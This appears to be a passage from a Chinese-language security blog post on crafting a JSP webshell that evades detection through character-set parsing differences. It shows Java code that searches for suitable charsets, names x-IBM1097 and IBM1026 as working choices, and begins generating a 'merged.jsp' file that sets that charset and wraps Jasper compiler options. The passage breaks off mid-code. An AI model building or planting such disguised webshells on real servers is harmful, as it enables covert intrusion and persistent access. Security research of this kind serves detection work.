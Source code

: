 ```java
                if (!ret2.equals(ret1) && ret1.contains("test") && ret2.contains("test")){
                    System.out.println("Charset:1 " + charset.displayName());
                    System.out.println("Charset:2 " + charset2.displayName());
                    System.out.println(ret1);
                    System.out.println(ret2);
                }
            } catch (Exception e) {
            }
        }
    }
}
```

可以找到不少满足条件的编码，但是大部分的编码存在其他的解析差异，导致无法使用，因此还需要手动测试一下。

 ![](/attachments/2024-06-19-webshell/eac2bc02-fdac-4561-b9cb-093973b798cd.png)

最后找到两种满足条件的编码`x-IBM1097`和`IBM1026`，制作jsp文件的代码如下：

```java
public static void main(String[] args) throws Exception{
    new PrintWriter("merged.jsp").close();
    File file = new File("merged.jsp");
    writeToFile(file,"<%@ page contentType=\"charset=x-IBM1097\" %>","UTF-8");
    writeToFile(file, "<%@ page import=\"org.apache.jasper.JspCompilationContext\" %>\n" +
            "<%@ page import=\"org.apache.jasper.compiler.JspRuntimeContext\" %>\n" +
            "<%@ page import=\"org.apache.jasper.Options\" %>\n" +
            "<%@ page import=\"org.apache.jasper.EmbeddedServletOptions\" %>\n" +
            "<%@ page import=\"java.io.File\" %>\n" +
            "<%@ page import=\"org.apache.jasper.compiler.TldCache\" %>\n" +
            "<%@ page import=\"org.apache.jasper.compiler.JspConfig\" %>\n" +
            "<%@ page import=\"org.apache.jasper.compiler.TagPluginManager\" %>\n" +
            "<%@ page import=\"javax.servlet.jsp.tagext.TagLibraryInfo\" %>\n" +
            "<%@ page import=\"java.util.Map\" %>\n" +
            "<%@ page import=\"org.apache.jasper.servlet.JspServletWrapper\" %>\n" +
            "\n" +
            "<%\n" +
            "     Options options  = new Options() {\n" +
            "          private Options options = new EmbeddedServletOptions(config,application);\n" +
            "          @Override\n" +
            "          public boolean getErrorOnUseBeanInvalidClassAttribute() {\n" +
            "               return options.getErrorOnUseBeanInvalidClassAttribute();\n" +
            "          }\n" +
            "\n" +
            "          @Override\n" +
            "          public boolean getKeepGenerated() {\n" +
            "               return options.getKeepGenerated();\n" +
            "          }\n" +
            "\n" +
            "          @Override\n" +
            "          public boolean isPoolingEnabled() {\n" +
            "               return options.isPoolingEnabled();\n" +
            "          }\n" +
            "\n" +
            "          @Override\n" +
            "          public boolean getMappedFile() {\n" +
            "               return options.getMappedFile();\n" +
            "          }\n" +
            "\n" +
            "          @Override\n" +
            "          public boolean getClassDebugInfo() {\n" +
            "               return options.getClassDebugInfo();\n" +
            "          }\n" +
```